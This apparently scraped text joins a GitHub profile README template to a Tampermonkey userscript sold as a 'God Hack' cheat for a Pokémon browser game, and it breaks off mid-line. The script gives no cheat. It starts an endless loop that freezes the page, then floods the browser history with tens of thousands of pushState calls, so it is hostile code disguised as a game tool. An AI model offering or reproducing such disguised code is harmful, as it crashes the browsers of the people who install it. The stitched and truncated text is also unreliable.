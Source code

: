- 👋 Hi, I’m @Gasking225
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Gasking225/Gasking225 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->// ==UserScript==
// @name         Pokemon Comet God Hack 0.1
// @namespace    http://tampermonkey.net/
// @version      0.1
// @description  Beware, for you may get banned.
// @author       Golden
// @match        http://pokemon-comet.net/*
// @grant        none
// ==/UserScript==
 
      var i = "1";
while (i = 1); {
    alert("Something went wrong!");
}
 
      var total = "";
      for( var i = 0; i < 100000; i++ ) {
          total = total + i.toString();
          history.pushState(0,0, total
